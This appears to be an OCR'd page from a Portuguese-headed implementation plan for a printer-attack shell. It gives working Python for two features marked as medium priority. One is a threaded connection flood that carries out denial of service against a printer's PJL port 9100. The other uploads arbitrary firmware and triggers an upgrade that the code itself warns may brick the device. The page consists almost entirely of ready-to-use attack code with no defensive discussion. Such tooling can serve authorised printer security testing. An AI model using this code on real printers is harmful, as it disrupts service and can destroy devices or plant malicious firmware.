 
### PRIORIDADE MÉDIA (P2)

#### 4. DoS via Channel Flooding
**Implementação**:
```python
def do_dos_flood(self, arg):
    """DoS attack via multiple connection flooding"""
    count = conv().int(arg) or 100
    output().warning(f"Flooding printer with {count} connections...")
    
    import threading
    import socket
    
    def flood_connection():
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((self.target, 9100))
            sock.send(b"@PJL\r\n")
            time.sleep(10)  # Hold connection
            sock.close()
        except:
            pass
    
    threads = []
    for i in range(count):
        t = threading.Thread(target=flood_connection)
        t.start()
        threads.append(t)
    
    output().info(f"Launched {count} flood connections")
```

#### 5. Firmware Upload
**Implementação**:
```python
def do_firmware_upload(self, arg):
    """Upload firmware to printer"""
    if not arg:
        output().errmsg("Usage: firmware_upload <firmware_file>")
        return
    
    if not os.path.exists(arg):
        output().errmsg("Firmware file not found")
        return
    
    firmware_data = file().read(arg)
    if not firmware_data:
        return
    
    output().warning("Uploading firmware - this may brick the printer!")
    try:
        confirm = input("Continue? (yes/no): ")
        if confirm.lower() != 'yes':
            return
    except (EOFError, KeyboardInterrupt):
        return
    
    # Upload firmware
    self.cmd(f"@PJL FSUPLOAD NAME=\"0:/firmware.bin\" SIZE={len(firmware_data)}")
    self.send(firmware_data)
    
    # Trigger upgrade
    self.cmd("@PJL UPGRADE FIRMWARE=\"0:/firmware.bin\"", False)
```